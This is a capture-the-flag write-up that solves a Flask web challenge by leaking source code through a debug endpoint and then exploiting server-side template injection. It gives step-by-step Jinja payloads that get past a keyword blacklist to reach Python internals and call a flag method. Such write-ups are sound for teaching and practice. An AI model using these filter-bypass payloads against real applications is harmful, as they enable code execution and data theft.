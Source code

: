 ## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](images/1.png)

2. When you try to access it you may see `Wrong method` information. To check how to access this endpoint, simply use `OPTIONS` HTTP request type.


![OPTIONS response](images/2.png)

3. After using `DEBUG` request type, you get the access to a part of source code of application. Part that interests us is here:
```python
ip_unsanitized = request.args.get('ip') or None
if ip_unsanitized is None:
    return abort(400, 'No ip parameter')
else:
    ip = sanitize(ip_unsanitized)
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that saintized IP is passed directly to the HTML

4. We need to bypass saintization:
```python
blacklist = ["__class__", "__subclasses__", "request[request.", "__", "|join", '[', ']' ]
for bad in blacklist:
    if bad in string:
        abort(400, f"No hacking here - { bad } is not allowed") 
```

5. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

6. Ideally we will use something like:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[483].get__flag()}}
```

We access Request class, then Object and get it's all subclasses (our Flag class derives from it). If we look into it using `__dict__` we can see `get__flag()` method. Just use it 

> 483 is just temporary value - it may vary depending on running python version

Unfortunately we need to bypass sanitization

### Bypassing

- We can use `format` and `attr`:
```jinja
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```
This string bypasses `__`, `__class__` and `|join`. It uses syntax similar to URL query params

- Now we need to bypass `[` `]` sanitization and access `__mro__[11]` (we cannot use direct array access):
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{l}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s
```
We can just access 11th created element `l`

- Now is the time for `__subclasses__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))())}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```
We use similar method as before (a lot of query params and formats)

- If we have our subclasses we need to access its 500th element (or something around it). We do not want to create over 500 variables so we will use `pop()`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(500)}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```

- When we have our `Flag` class we want to look into it's methods - we use `__dict__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.dict|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&dict=%s%sdict%s%s
```

![dict response](images/5.png)

- We can see `get_____flag()` method:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.getflag|format(request.args.a,request.args.a,request.args.a,request.args.a,request.args.a))()}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&getflag=get%s%s%s%s%sflag
```


![Result](images/4.png)